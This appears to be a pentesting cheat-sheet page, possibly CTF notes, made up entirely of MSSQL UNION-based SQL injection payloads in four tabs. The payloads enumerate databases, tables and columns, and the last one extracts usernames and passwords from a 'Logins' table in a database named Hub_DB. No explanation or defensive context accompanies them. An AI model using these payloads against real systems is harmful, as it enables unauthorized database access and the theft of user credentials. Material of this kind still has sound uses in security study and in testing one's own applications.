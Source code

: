{% tabs %}
{% tab title="Databases" %}
```sql
a' UNION ALL SELECT 1,name,3,4,5 from master..sysdatabases-- -
```
{% endtab %}

{% tab title="Tables" %}
{% code overflow="wrap" %}
```sql
a' UNION ALL SELECT 1,name,3,4,5 FROM Hub_DB..sysobjects WHERE xtype = 'U'-- -
```
{% endcode %}
{% endtab %}

{% tab title="Columns" %}
{% code overflow="wrap" %}
```sql
a' UNION ALL SELECT 1,name,3,4,5 FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Logins')-- -
```
{% endcode %}
{% endtab %}

{% tab title="Data" %}
```sql
a' UNION ALL SELECT id,username,password,4,5 FROM Hub_DB..Logins-- -
```
{% endtab %}
{% endtabs %}
